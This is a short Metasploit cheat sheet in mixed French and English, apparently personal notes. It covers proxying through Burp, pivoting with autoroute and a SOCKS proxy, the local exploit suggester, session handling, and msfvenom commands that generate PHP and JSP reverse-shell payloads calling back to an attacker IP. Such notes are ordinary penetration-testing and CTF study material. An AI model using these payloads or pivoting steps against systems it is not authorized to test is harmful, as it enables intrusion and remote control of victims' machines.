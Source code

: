 > migrate explication
> cheatsheet
> msfvenom script generation explain
> difference between setg and set
> sessions -i <number>

```bash

 # rediriger les requettes vers Burp
 set PROXIES HTTP:127.0.0.1:8080
 set RPORT PORT # ou 80
```

###### Pivoting

- [Pivoting](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

```bash
use post/multi/manage/autoroute
set SESSION <SessionNumber>
run
use auxiliary/server/socks_proxy
set SRVHOST <AttackIp>
run
# find and run exploit

# to see web interface
# select Network Settings to open the connection settings. Select SOCKS Host and provide IP address of the Kali machine and port as 1080.
```

```bash
#list payloads
msfvenom  --list payloads

# utilisation de msfvenom pour generer un reverse shell php
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

```bash
# privilege escalation audit and suggestion
use post/multi/recon/local_exploit_suggester
```

```bash
# run in background
bgrun

# put session in backgroud
background | ctrl + Z
```

```bash
# locate file to copy exploit that are not in current msfconsole
locate exploits

# update
apt update; apt install metasploit-framework
```

```bash
# java reverse tcp payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

**Ressources**

[Metasploit official doc](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
[MSF venom payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

